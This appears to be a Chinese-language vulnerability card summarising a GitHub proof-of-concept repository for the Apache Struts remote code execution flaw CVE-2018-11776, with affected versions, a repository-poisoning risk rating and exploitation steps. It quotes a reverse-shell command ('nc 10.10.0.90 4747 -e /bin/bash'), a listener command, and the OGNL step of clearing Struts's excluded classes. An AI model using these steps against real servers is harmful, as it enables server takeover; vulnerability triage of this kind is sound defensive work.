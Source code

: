 ## CVE-2018-11776-Apache Struts 远程代码执行

**漏洞编号:** CVE-2018-11776

**漏洞类型:** 远程代码执行

**影响应用:** Apache Struts

**危害等级:** 高危，可以远程执行任意代码，完全控制服务器

**影响版本:** 2.3 to 2.3.34, 2.5 to 2.5.16

**利用条件:** alwaysSelectFullNamespace 为 true，且存在特定的package和namespace配置

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2018-11776 是一个 Apache Struts 2 的远程代码执行漏洞。根据漏洞库信息和搜索结果，此漏洞的利用依赖于 `alwaysSelectFullNamespace` 设置为 true，以及特定的package和namespace配置。攻击者可以构造恶意的OGNL表达式，通过 URL 传入，导致服务器执行任意代码。

提供的漏洞利用代码包含 `bashexploit.py` 和 `bashexploit.sh` 两个脚本，它们都尝试利用 OGNL 表达式注入执行命令。这些脚本首先尝试绕过安全限制，然后执行反弹 shell 命令，将服务器的 shell 连接到攻击者的机器。

**有效性：**
提供的POC代码有效。漏洞利用代码通过OGNL表达式注入，分两步进行攻击：
1.  移除Struts的安全限制（`setExcludedClasses('')`和`setExcludedPackageNames('')`）。
2.  执行反弹shell命令（`nc 10.10.0.90 4747 -e /bin/bash`），允许攻击者远程访问服务器。

**投毒风险：**
此仓库中没有发现明显的投毒代码。代码的功能都是围绕利用CVE-2018-11776漏洞执行远程代码，没有发现作者添加的恶意功能。所以投毒风险评估为 **0%**。

**利用方式：**
1.  **目标确认：**  确认目标 Apache Struts 版本在受影响范围内 (2.3 to 2.3.34, 2.5 to 2.5.16)，并配置了 `alwaysSelectFullNamespace=true`。
2.  **OGNL 表达式注入：** 通过构造包含恶意 OGNL 表达式的 URL 来触发漏洞。恶意 OGNL 表达式可以执行任意代码。
3.  **绕过安全限制 (可选)：**  如果 Struts 启用了安全限制，可以先使用 OGNL 表达式移除这些限制，例如设置 `excludedClasses` 和 `excludedPackageNames` 为空。
4.  **执行恶意代码：**  使用 OGNL 表达式执行任意命令。常见的利用方式是执行反弹 shell 命令，从而获得对服务器的远程访问权限。
5.  **监听端口：**  攻击者需要在攻击机器上监听相应的端口（例如 `nc -lvp 4747`），以便接收反弹 shell 连接。

**项目地址:** [m4sk0ff/CVE-2018-11776](https://github.com/m4sk0ff/CVE-2018-11776)

**漏洞详情:** [CVE-2018-11776](https://nvd.nist.gov/vuln/detail/CVE-2018-11776)